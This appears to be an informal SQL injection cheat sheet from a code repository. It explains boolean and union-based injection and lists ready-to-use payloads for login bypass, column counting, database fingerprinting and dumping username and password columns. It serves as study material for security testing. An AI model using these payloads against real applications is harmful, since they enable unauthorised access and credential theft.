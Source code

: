 - ## SQLI
 
   -   **injecting a single quote can cause weird behavior of app indicating possible injection point**
   -   **Try all get(through url),post(burp) parameters and inject in headers also(burp)**
   -   **when testing boolean sqli,a true condition shows as normal while false causes app to malfunction**
   -   ****
      
     ### basic boolean sqli

       web app uses select example,example2 from table_name where id=somevalue . We add our payload to make it a boolean condition

       This query dump all the information which is queried and we only check comdition with the parameter to make statement true

>     ' or 1=1--        

     
     ### basic union sqli

       Union based sqli doesnt ignore the app sql query as there is no boolean condition so application query is executed alongside our crafted query

      Union joins different sql queries together

      **We dont know that how many attributes is the application asking in the query which we manipulate**
      
      **to tackle that we can use following payload**
      ***'union select null,null;***   we can keep increasing amount of nulls in our query and at which number web app dont give any error,thats the right amount of queries
      **We can also do this by using ORDER By 1,order by 2(keep increasing orders until you get right amount of queiries)**

>     ' union select username,password from table_name where 1=1;

     #### local database username

>      we can see the database user using user() function ; 
>      Query is   ' union select user();-- -   

   -   admin' or '1'='1 	     *Basic Auth Bypass*
   
   -   admin')-- - 	     *Basic Auth Bypass With comments*

   -   ' order by 1-- - 	*Detect number of columns using order by*

   -   cn' UNION select 1,2,3-- - 	*Detect number of columns using Union injection*

   -   cn' UNION select 1,@@version,3,4-- - 	*Basic Union injection*

   -   UNION select username, 2, 3, 4 from passwords-- - 	*Union injection for 4 columns*

   -  SELECT @@version 	    *Fingerprint MySQL with query output*

   -  SELECT SLEEP(5)  	         *Fingerprint MySQL with no output*

   -  cn' UNION select 1,database(),2,3-- - 	     *Current database name*
